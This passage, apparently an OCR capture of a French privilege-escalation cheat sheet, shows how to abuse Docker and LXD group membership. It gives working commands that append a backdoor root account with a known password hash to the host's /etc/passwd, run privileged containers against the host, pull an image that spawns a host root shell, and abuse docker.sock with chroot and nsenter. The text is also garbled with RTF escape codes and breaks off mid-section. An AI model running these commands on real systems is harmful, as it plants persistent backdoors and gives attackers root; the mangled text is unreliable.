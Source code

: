 ```powershell\
\
On le syst\uc0\u232 me de fichiers dans un conteneur bash, nous autorisant \u224  \'e9diter `/etc/passwd` en tant que root, on ajoute ensuite le compte backdoor `toor:password`.\
\
```bash\
$> docker run -it --rm -v $PWD:/mnt bash\
$> echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd\
```\
\
Presque similaire mais vous verrez aussi des processus lanc\'e9s sur l\'92h\'f4te et connect\'e9s sur les m\uc0\u234 mes NICs.\
\
```powershell\
docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash\
```\
\
Ou utilisez l\'92image docker suivante de [chrisfosterelli](https://hub.docker.com/r/chrisfosterelli/rootplease/) pour faire spawn un shell root.\
\
```powershell\
$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease\
latest: Pulling from chrisfosterelli/rootplease\
2de59b831a23: Pull complete \
354c3661655e: Pull complete \
91930878a2d7: Pull complete \
a3ed95caeb02: Pull complete \
489b110c54dc: Pull complete \
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0\
Status: Downloaded newer image for chrisfosterelli/rootplease:latest\
\
You should now have a root shell on the host OS\
Press Ctrl-D to exit the docker instance / shell\
\
sh-5.0# id\
uid=0(root) gid=0(root) groups=0(root)\
```\
\
Plus d\'92escalade de privil\uc0\u232 ges en utilisant le cocker Docker.\
\
```powershell\
sudo docker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash\
sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh\
```\
\
### LXC/LXD\
\
privesc requiert le lancement d\'92un conteneur avec des privil\uc0\u232 ges \'e9lev\'e9s et le montage du syst\u232 me de fichiers de l\'92h\'f4te \u224  l\'92int\'e9rieur.\
\
```powershell\

\f1 \'a8\'71\'a9\'a4
\f0 swissky@lab ~  \

\f1 \'a8\'74\'a9\'a4
\f0 $ id\
uid=1000(swissky) gid=1000(swissky) groupes=1000(swissky),3(sys),90(network),98(power),110(lxd),991(lp),998(wheel)\
```\
\
On cr\'e9e une image Alpine et on la d\'e9marre en utilisant `security.privileged=true`, obligeant le conteneur \uc0\u224  interagir en tant que root avec le syst\u232 me de fichiers de l\'92h\'f4te.\
```